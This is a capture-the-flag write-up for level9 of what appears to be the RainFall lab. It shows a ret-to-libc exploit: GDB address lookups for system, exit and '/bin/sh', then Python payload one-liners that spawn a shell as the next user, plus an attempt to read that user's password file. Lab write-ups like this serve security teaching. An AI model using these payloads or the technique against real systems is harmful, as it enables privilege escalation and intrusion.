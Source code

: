 ## Flag9 README: Finding Flag9

We are now into `/home/user/level9`

We have a program called **level9**
We dowload it with our best friend command:
```sh
scp -P 4343 level9@localhost:/home/user/level9/level9 ~
```

After decompilation (cf [source](../source))
We realize we had a function called at the end of the program.
Okay so our plan is to execute a `/bin/bash` into this program. So after doing some research we find a exploit called `ret to libc`. Which basicly is change the address of a ret in a function from his old address from a adress into `libc`. Here we want to switch it with address of `system + exit + /bin/sh`.

So the payload is going to look like:
```
PAYLOAD= padding + address of system + adress of exit + address of /bin/sh
```

Okay let's find out adresses...

For `system` and `exit`, no difficulty here, we are using command `print` of GDB:

```sh
(gdb) p system
$2 = {<text variable, no debug info>} 0xb7d86060 <system>
(gdb) p exit
$3 = {<text variable, no debug info>} 0xb7d79be0 <exit>
(gdb)
```

Okay, nex step, we need to find the address of `/bin/sh`, a bit harder but don't worry we spare you researches:

```sh
(gdb) find &system,+9999999,"/bin/sh"
0xb7ea7c58
warning: Unable to access target memory at 0xb7fd48e0, halting search.
1 pattern found.
```
Okay now we have all our address.

Now we need to find where to put it...
As you can see we have a buffer of `108`.
OKay so let's try our payload like:
```sh
./level9 $(python -c 'print("\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08")')
```
Nothing happens.
After analyzing our program, we understood that we needed to pass pointer of pointer.
Okay no problem:

```sh
level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08")')
sh: 1:
       : not found
level9@RainFall:~$
```

Something happened ...
But we cannot run any command.
We tryed some stuff like :
```sh
$(python -c 'print("\x60\x60\xd8\xb7" + "\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08")' + "; cat ../bonus0/.pass")
```
But it did not work.
After few tries, we came up with a solution :

```sh
$(python -c 'print("\x60\x60\xd8\xb7" + "\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08")' + ";/bin/sh")
```

And voila we are now log with bonus0

```sh
level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "\xe0\x9b\xd7\xb7" + "\x58\x7c\xea\xb7" + "\x90" * 96 + "\x0c\xa0\x04\x08" + ";/bin/sh")')
sh: 1:
       : not found
$ whoami
bonus0
$
```
